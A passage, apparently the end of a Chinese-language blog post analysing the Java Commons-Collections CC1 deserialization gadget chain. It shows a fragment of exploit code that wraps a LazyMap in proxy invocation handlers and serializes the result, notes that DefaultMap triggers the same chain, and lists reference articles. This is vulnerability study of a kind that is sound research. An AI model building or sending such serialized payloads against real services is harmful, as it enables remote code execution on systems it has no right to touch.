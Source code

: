```java
        constructor.setAccessible(true);
        InvocationHandler h1 = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);

        Map proxymap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), h1);

        InvocationHandler h2 = (InvocationHandler) constructor.newInstance(Target.class, proxymap);
        serialize(h2);
    }
```



## 0x05 DefaultMap 调用链



DefaultMap 与 LazyMap 一样，使用 get 方法触发，因此与 LazyMap 利用链相同。



# 参考资料

-  [Java反序列化CommonsCollections篇(一) CC1链手写EXP](https://www.bilibili.com/video/BV1no4y1U7E1?from=search&seid=1275269546208917278&spm_id_from=333.337.0.0) 
-  [Java 反序列化漏洞（二） - Commons Collections](https://su18.org/post/ysoserial-su18-2/#commonscollections1) 

-  [java_集合体系之Map框架相关抽象类接口详解、源码](https://blog.csdn.net/meizheming/article/details/73821812) 
-  [Commons-Collections 1-7 利用链分析](http://wjlshare.com/archives/1535) 
